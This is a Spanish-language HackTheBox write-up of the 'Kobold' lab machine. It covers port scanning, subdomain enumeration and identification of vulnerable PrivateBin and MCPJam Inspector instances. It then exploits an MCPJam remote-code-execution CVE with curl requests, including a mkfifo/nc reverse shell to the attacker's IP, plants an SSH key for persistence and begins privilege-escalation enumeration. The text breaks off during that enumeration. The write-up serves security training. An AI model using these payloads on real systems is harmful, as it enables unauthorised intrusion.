+++
title = "HackTheBox - Kobold"
draft = false
description = "Resolución de la máquina Kobold"
tags = ["HTB", "Linux", "Easy", "Docker", "Privatebin", "MCP", "LFI"]
summary = "OS: Linux | Dificultad: Easy | Conceptos: Privatebin, MCP, LFI, Docker"
categories = ["Writeups"]
showToc = true
showRelated = true
date = "2026-03-24T00:00:00"
+++

* Dificultad: `easy`
* Tiempo aprox. `~4.5h`
* **Datos Iniciales**: `10.129.16.140`

## Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:
```bash
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:45:12:36:03:61:de:0f:0b:2b:c3:9b:2a:92:59:a1 (ECDSA)
|_  256 d2:3c:bf:ed:55:4a:52:13:b5:34:d2:fb:8f:e4:93:bd (ED25519)
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
443/tcp  open  ssl/http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after:  2125-02-19T15:08:55
3552/tcp open  http     Golang net/http server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Length: 2081
|     Content-Type: text/html; charset=utf-8
|     Expires: 0
|     Pragma: no-cache
|     Date: Tue, 24 Mar 2026 18:56:24 GMT
|     <!doctype html>
|     <html lang="%lang%">
|     <head>
|     <meta charset="utf-8" />
|     <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
|     <meta http-equiv="Pragma" content="no-cache" />
|     <meta http-equiv="Expires" content="0" />
|     <link rel="icon" href="/api/app-images/favicon" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, viewport-fit=cover" />
|     <link rel="manifest" href="/app.webmanifest" />
|     <meta name="theme-color" content="oklch(1 0 0)" media="(prefers-color-scheme: light)" />
|     <meta name="theme-color" content="oklch(0.141 0.005 285.823)" media="(prefers-color-scheme: dark)" />
|_    <link rel="modu
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3552-TCP:V=7.98%I=7%D=3/24%Time=69C2DE58%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
...[SNIP]...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nada en UDP (Solo DHCP filtrado)
```

Encontramos el dominio `kobold.htb` y una entrada DNS `*.kobold.htb`, así que probaremos a buscar vhosts. De momento añadimos el nombre a  `/etc/hosts`:
```bash
$ echo "10.129.16.140 kobold.htb" | sudo tee -a /etc/hosts                                         
10.129.16.140 kobold.htb
```

Tenemos los siguientes puertos abiertos:

- `22/tcp (OpenSSH 9.6p1)`: Vulnerable a RegreSSHion y otros CVE más, ninguno relevante.
- `80/tcp (nginx 1.24.0)`: Servidor HTTP, algunas vulnerabilidades no relevantes, redirige a HTTPS.
- `443/tcp (nginx 1.24.0)`: Servidor HTTP(S)
- `3552/tcp (Golang net/http server)`: Al parecer un servidor HTTP.

## Puerto 3552
El escaneo de nmap nos ha dejado alguna pista del posible servicio que puede haber detrás, con contenido en headers como `/app.webmanifest` o `/api/app-images/favicon`. Si buscamos específicamente servicios que se ejecuten en el puerto 3552 por defecto y sirvan los elementos anteriores, encontramos que es posible que se trate de `Qlik Replicate`, aunque tendremos que conectarnos para confirmarlo.

Si nos conectamos por Firefox, veremos una página en blanco, con el siguiente código fuente:
```html
<!doctype html>
<html lang="%lang%">
	<head>
		<meta charset="utf-8" />
		<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
		<meta http-equiv="Pragma" content="no-cache" />
		<meta http-equiv="Expires" content="0" />
		<link rel="icon" href="/api/app-images/favicon" />
		<meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, viewport-fit=cover" />
		<link rel="manifest" href="/app.webmanifest" />
		<meta name="theme-color" content="oklch(1 0 0)" media="(prefers-color-scheme: light)" />
		<meta name="theme-color" content="oklch(0.141 0.005 285.823)" media="(prefers-color-scheme: dark)" />
		<link rel="modulepreload" href="/_app/immutable/entry/start.B8B5EbJt.js">
		<link rel="modulepreload" href="/_app/immutable/chunks/DwHmfVrp.js">
		...[SNIP]...
		<link rel="modulepreload" href="/_app/immutable/chunks/6YvwyG1B.js">
		<link rel="modulepreload" href="/_app/immutable/chunks/CZ6RKXrE.js">
	</head>
	<body data-sveltekit-preload-data="hover">
		<div style="display: contents">
			<script>
				{
					__sveltekit_1qbikdi = {
						base: ""
					};
					const element = document.currentScript.parentElement;
					Promise.all([
						import("/_app/immutable/entry/start.B8B5EbJt.js"),
						import("/_app/immutable/entry/app.DjeIUeIu.js")
					]).then(([kit, app]) => {
						kit.start(app, element);
					});

					if ('serviceWorker' in navigator) {
						addEventListener('load', function () {
							navigator.serviceWorker.register('/service-worker.js');
						});
					}
				}
			</script>
		</div>
	</body>
</html>
```


Aquí podemos anotar varios elementos:
- Directorio `/api`
- Directorios `/_app/immutable/entry/`
- Elemento `/app.webmanifest`

### app.webmanifest
En el archivo `app.webmanifest` encontramos lo siguiente:

```json
{
	"name": "Arcane",
	"short_name": "Arcane",
	"description": "Modern Docker container management platform",
	"theme_color": "oklch(0.141 0.005 285.823)",
	"background_color": "oklch(0.141 0.005 285.823)",
	"display": "fullscreen",
	"orientation": "portrait-primary",
	"scope": "/",
	"start_url": "/",
	"lang": "en",
	"categories": ["productivity", "developer", "utilities"],
	"icons": [
		{
			"src": "img/pwa/icon-72x72.png",
			"sizes": "72x72",
			"type": "image/png",
			"purpose": "maskable any"
		},
		...[SNIP]...
		{
			"src": "img/pwa/icon-512x512.png",
			"sizes": "512x512",
			"type": "image/png",
			"purpose": "maskable any"
		}
	]
}
```

Vemos que se nombra "`Arcane`", una plataforma para, según el json, gestionar containers Docker.

### Arcane
Tras mirar el `web.manifest` y descartar `Qlik`, vemos que efectivamente estamos ante [`Arcane`](https://github.com/getarcaneapp/arcane), una plataforma de código abierto para gestionar containers Docker.

Aunque antes en Firefox nos salía una página en blanco, era porque teníamos que esperar unos segundos, si volvemos ahora:



Y vemos que se trata de la versión `1.13.0`, algo retrasada respecto a la actual a la hora de escribir este writeup (`1.16.4`). Si buscamos la versión, encontramos varios CVE (Como el [CVE-2026-23520](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2026-23520)) que afectan a las versiones **anteriores** a la 1.13.0. Al parecer no hay vulnerabilidades críticas para esta versión.

Si miramos la [documentación de Arcane](https://getarcane.app/docs/setup/installation), vemos que las credenciales por defecto son `arcane`:`arcane-admin`, pero si las probamos:



Dado que las credenciales por defecto no son válidas y la versión ya no es vulnerable, tenemos que ir al dominio principal.

## Kobold
Entramos al dominio principal, vemos esto:



Si probamos a tocar cualquier cosa, vemos que no hay nada, así que enumeramos subdominios.

> [!warning] Nota: HTTPS
> A la hora de enumerar subdominios, en estos casos en los que el puerto http solo está para redirigirnos a https, lo suyo sería enumerar subdominios usando **https** y no http. En este caso, si probamos a enumerar con `--url http://kobold.htb` en lugar de `--url https://kobold.htb` veremos que no se encuentra nada.

En relación al aviso anterior, si probamos lo siguiente hacia http:
```bash
$ gobuster vhost --url http://kobold.htb -w /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt -ad                        
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://kobold.htb
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 56528 / 3000001 (1.88%)
# Nada al estar unos 5 minutos buscando
```

Pero si probamos con https (ignorando el aviso por certificado autofirmado con `-k`):
```bash
$ gobuster vhost --url https://kobold.htb --wordlist /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt -k -ad
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       https://kobold.htb
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
bin.kobold.htb Status: 200 [Size: 24402]
mcp.kobold.htb Status: 200 [Size: 466]
Progress: 80853 / 3000001 (2.70%)
```
Ahí están, `bin.kobold.htb` y `mcp.kobold.htb` (tras unos minutos).

> [!tip] Nota: Paciencia
> En mi caso, antes de encontrar el primer subdominio `bin.kobold.htb`, asumiendo que en una máquina HTB se habría puesto un subdominio de los primeros en las wordlists, estuve a punto de parar la búsqueda y tirar por otro lado, así que paciencia.

### Subdominio bin
Al conectarnos encontramos esto:



Según la propia página (abajo a la derecha):

> *PrivateBin is a minimalist, open source online pastebin where the server has zero knowledge of stored data. Data is encrypted/decrypted in the browser using 256 bits AES.*

Además vemos que se usa la versión `2.0.2`, vulnerable a [`CVE-2025-64714`](https://nvd.nist.gov/vuln/detail/CVE-2025-64714), que permite a un atacante hacer un LFI en una característica de "template-switching".

Si buscamos archivos de Privatebin que en internet se consideran relevantes, encontramos varios:
- `cfg/conf.php`: Config. principal, no podemos verlo
- `cfg/conf.sample.php`: No podemos verlo
- `data/`: Todos los pastes y comentarios se guardan aquí
- `bin/`: Ejecutables y scripts cli.
- `lib/` y `vendor/`: librerías PHP y demás, pueden enumerarse versiones.
- `tpl/`: **Directorios de plantillas, precisamente relacionado con el CVE anterior.**

Hay varias cosas que podemos solicitar, pero el resultado no cambia mucho:
- Si solicitamos algo como `bin.kobold.htb/<x>`, se nos devuelve la página principal.
- Si solicitamos algo como `bin.kobold.htb/<x>/`, se nos lleva a una página como esta:



Dado que se nos pide contraseña, poco más podemos hacer.

### Subdominio mcp
Tras buscar qué es MCP cuando se trata de un subdominio, descubro que significa Model Context Protocol, definido como:

> Announced by Anthropic in November 2024, MCP is an open-source standard designed to allow LLMs to securely connect to external tools, data sources, and software systems.

Si entramos:



Se trata de [MCPJam Inspector](https://github.com/MCPJam/inspector), otro programa más de código abierto que permite crear y configurar apps, hablar con LLMs, gestionar herramientas, recursos, prompts y demás.

Si vamos a la pestaña Settings, vemos que la versión instalada es la `v1.4.2`, y si buscamos vulnerabilidades, encontramos lo que llevamos buscando tanto rato: [CVE-2026-23744](https://nvd.nist.gov/vuln/detail/CVE-2026-23744), CVSS 9.8, RCE.

## Foothold inicial
Se puede ver más información del CVE en el [reporte de Github](https://github.com/advisories/GHSA-232v-j27c-5pp6), pero en general la idea es hacer una petición HTTP como esta:

```bash
curl http://[IP]:[PORT]/api/mcp/connect --header "Content-Type: application/json" --data "{\"serverConfig\":{\"command\":\"cmd.exe\",\"args\":[\"/c\", \"calc\"],\"env\":{}},\"serverId\":\"mytest\"}"
```

Este PoC está hecho para Windows, pero podemos modificarlo para Linux a nuestro gusto, por ejemplo:
```bash
curl -k https://mcp.kobold.htb/api/mcp/connect --header "Content-Type: application/json" --data "{\"serverConfig\":{\"command\":\"/bin/sh\",\"args\":[\"-c\", \"curl 10.10.14.219:8000\"],\"env\":{}},\"serverId\":\"mytest\"}"
```

Y desde nuestro servidor en escucha recibimos la solicitud de curl:
```bash
$ python3 -m http.server         
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.16.140 - - [24/Mar/2026 17:51:42] "GET / HTTP/1.1" 200 -
```
Así que efectivamente tenemos RCE, por lo que vamos a por un revshell directamente:
```bash
curl -k https://mcp.kobold.htb/api/mcp/connect --header "Content-Type: application/json" --data "{\"serverConfig\":{\"command\":\"/bin/sh\",\"args\":[\"-c\", \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.219 4444 >/tmp/f\"],\"env\":{}},\"serverId\":\"mytest\"}"
```
Y al ejecutarlo:
```bash
$ penelope -i 10.10.14.219
[+] Listening for reverse shells on 10.10.14.219:4444 
-> Main Menu (m) Payloads (p) Clear (Ctrl-L) Quit (q/Ctrl-C)
[+] Got reverse shell from kobold.htb~10.129.16.140-Linux-x86_64 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3!
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 

ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$ whoami
ben
```

### Persistencia
Tan pronto como entro, para evitar problemas con el shell y conseguir persistencia, creo un par de claves SSH aprovechando que somos un usuario normal.

```bash
$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/kobold/ben_rsa
Enter passphrase for "/home/kali/kobold/ben_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/kobold/ben_rsa
Your public key has been saved in /home/kali/kobold/ben_rsa.pub
...
```

Y desde el revshell:
```bash
ben@kobold:~$ nano .ssh/authorized_keys #Copio ben_rsa.pub
```

Luego, de nuevo desde nuestra máquina:
```bash
$ ssh ben@kobold.htb -i ben_rsa
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-106-generic x86_64)
...

ben@kobold:~$
```

## Privesc
Hacemos recuento de lo que tenemos hasta el momento:
- Servicio `Arcane` no vulnerable, panel de login con credenciales desconocidas, en `tcp/3552`.
  - Quizás debamos buscar las credenciales localmente
- Servicio `Privatebin` vulnerable a LFI.
- Servicio `MCPJam Inspector` vulnerable a RCE (Foothold).

Vemos que en `/home` hay 2 cuentas: `alice` y `bob`. No tenemos permiso para ver el directorio de la primera.

Analizamos puertos en local, vemos 3:
```bash
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                  
tcp        0      0 127.0.0.1:33031         0.0.0.0:*               LISTEN      -                  
tcp        0      0 127.0.0.1:6274          0.0.0.0:*               LISTEN      1641/node
```
Probamos a hacer curl a todas:
```bash
ben@kobold:~$ curl localhost:8080
<!DOCTYPE html>
<html lang="en" class="h-100">
...[SNIP]... # HTML de PrivateBin

ben@kobold:~$ curl localhost:33031
404: Page Not Found

ben@kobold:~$ curl localhost:6274
<!doctype html>
<html lang="en">
...[SNIP]... # HTML de MCPJam Inspector
```
- `tcp/8080` es Privatebin
- `tcp/33031` sirve HTTP pero no sabemos qué es
- `tcp/6274` es MCPJam Inspector

Además, al buscar encontramos el directorio `/privatebin-data`, del que posiblemente también podamos sacar información (aunque por la propia filosofía de diseño de Privatebin los datos están cifrados en el servidor) y `/app`, que al parecer corresponde a `Arcane` pero está vacía.

Si nos fijamos, no estamos en un solo grupo, sino que somos parte del grupo `operator`:
```bash
ben@kobold:/privatebin-data$ id
uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)
```

Y si miramos los archivos que pertenecen a ese grupo:
```bash
ben@kobold:/privatebin-data$ find / -group operator 2>/dev/null
/privatebin-data
/privatebin-data/certs
/privatebin-data/certs/key.pem
/privatebin-data/certs/cert.pem
/privatebin-data/data
/privatebin-data/data/purge_limiter.php
/privatebin-data/data/bd
/privatebin-data/data/bd/b5
/privatebin-data/data/.htaccess
/privatebin-data/data/e3
/privatebin-data/data/traffic_limiter.php
/privatebin-data/data/salt.php
```
Así que todo apunta a `/privatebin-data`.

### privatebin-data: "Bajando de privilegios"
Vamos al directorio y miramos los contenidos:
```bash
ben@kobold:/privatebin-data$ ls -al
total 20
drwxrwx---  2 root operator 4096 Mar 15 21:23 certs
drwxr-x---  2 root       82 4096 Mar 15 21:23 cfg
drwxrwxrwx  5 root operator 4096 Mar 15 21:23 data
```

